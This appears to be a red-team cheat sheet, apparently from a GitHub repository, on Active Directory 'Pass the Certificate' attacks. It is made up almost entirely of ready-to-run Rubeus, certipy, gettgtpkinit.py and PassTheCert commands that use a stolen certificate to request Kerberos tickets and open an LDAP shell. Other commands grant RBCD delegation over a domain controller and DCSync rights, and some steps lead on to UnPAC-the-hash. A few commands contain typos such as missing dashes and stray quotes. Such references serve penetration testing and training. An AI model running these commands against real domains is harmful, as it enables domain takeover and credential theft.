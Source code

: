 # Pass the Certificate

## Tools: gettgtpkinit.py , Rubeus , certipy

### Pass the Certificate in order to get a TGT, this technique is used in "UnPAC the Hash" and "Shadow Credential"

# PKINIT

#### 1) Rubeus

    Rubeus.exe asktgt /user:"USERNAME" /certificate:"PFX_FILE" [/password:"CERTIFICATE_PASSWORD] /domain:"FQDN_DOMAIN" /dc:"DC" /show

#### 2) certipy

    certipy auth -pfx CRT_FILE -dc-ip DC_IP

#### 3) gettgtpkinit.py

    gettgtpkinit.py -cert-pfx "PFX_FILE" [cert-pfx-pass "CERT_PASSWORD"] "FQDN_DOMAIN/USER "TGT_CCACHE_FILE"

### These 3 techniques can be performed for a Pass-the-Ticket attack

# Schannel (Secure Channel)

#### 1) certipy

    certipy auth -pfx CRT_FILE -ldap-shell

    add_computer

    set_rbcd

#### 2) PassTheCert.py https://github.com/AlmondOffSec/PassTheCert.git

### Extract the .key and .crt files from the .pfx file (Extract the .key file. Leave import password blank and put something like 1234 for PEM pass.)

    openssl pkcs12 -in USER_CERT.pfx -nocerts -out USER.key 

### Extract the .crt file

    openssl pkcs12 -in USER_CERT.pfx -clcerts -nokeys -out USER.crt 

### Authenticate against LDAPS using Schannel. In this example, we give the computer account we control RBCD, AKA delegation rights over the DC. Enter the PEM phrase we used when extracting the .key file earlier

    python3 passthecert.py -dc-ip DC_IP -crt USER.crt -key USER.key -domain DOMAIN.LOCAL -port 636 -action write_rbcd -delegate-to 'DOMAIN$' -delegate-from 'OUR_COMP$' 

### With this technique, we can now perform an RBCD attack

# Pass-the-Certificate

## Windows

#### 1) Information about a cert file

    certutil -v -dump admin.pfx

#### 2) From a base64 PFX

    Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show

#### 3) Grant DCSync rights to a user

    ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target DOMAIN\USER --elevate

#### 4) To restore

    ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target DOMAIN\USER --restore

### PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.

    openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"

### Certipy uses DER encryption. To generate a PFX for Rubeus, openssl can be used.

    openssl rsa -inform DER -in key.key -out key-pem.key

    openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM

    openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx

## Linux

#### 1) Base64-encoded PFX certificate (string) (password can be set)

    gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 2) PEM certificate (file) + PEM private key (file)

    gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 3) PFX certificate (file) + password (string, optionnal)

    gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 4) Using Certipy

    certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'

    certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"

### The ticket obtained can then be used to

#### 1) Authenticate with pass-the-cache

#### 2) Conduct an UnPAC-the-hash attack. This can be done with getnthash.py from PKINITtools.

#### 3) Obtain access to the account's SPN with an S4U2Self. This can be done with gets4uticket.py from PKINITtools.

## Alternate Method: PassTheCert https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py

#### 1) Extract key and cert from the pfx

    certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"

    certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

#### 2) Elevate a user for DCSync with passthecert.py

    passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate
